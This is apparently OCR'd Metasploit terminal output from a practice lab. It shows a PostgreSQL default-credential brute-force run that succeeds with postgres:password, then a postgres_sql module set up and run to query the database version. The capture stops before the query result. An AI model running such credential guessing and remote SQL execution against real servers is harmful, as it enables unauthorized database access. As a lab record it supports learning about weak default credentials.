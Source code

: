 ```bash
[-] 10.10.156.229:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.156.229:5432 - Login Successful: postgres:password@template1
[-] 10.10.156.229:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```bash
msf6 auxiliary(server/capture/postgresql) > use 11
msf6 auxiliary(admin/postgres/postgres_sql) > options

Module options (auxiliary/admin/postgres/postgres_sql):

   Name           Current Setting   Required  Description
   ----           ---------------   --------  -----------
   DATABASE       template1         yes       The database to authenticate against
   PASSWORD       postgres          no        The password for the specified username. Leave blank for a random password.
   RETURN_ROWSET  true              no        Set to true to see query result sets
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          5432              yes       The target port
   SQL            select version()  no        The SQL query to execute
   USERNAME       postgres          yes       The username to authenticate as
   VERBOSE        false             no        Enable verbose output

msf6 auxiliary(admin/postgres/postgres_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/postgres/postgres_sql) > set RHOSTS 10.10.244.60
RHOSTS => 10.10.244.60
msf6 auxiliary(admin/postgres/postgres_sql) > exploit
[*] Running module against 10.10.244.60

Query Text: 'select version()'
==============================

    version
```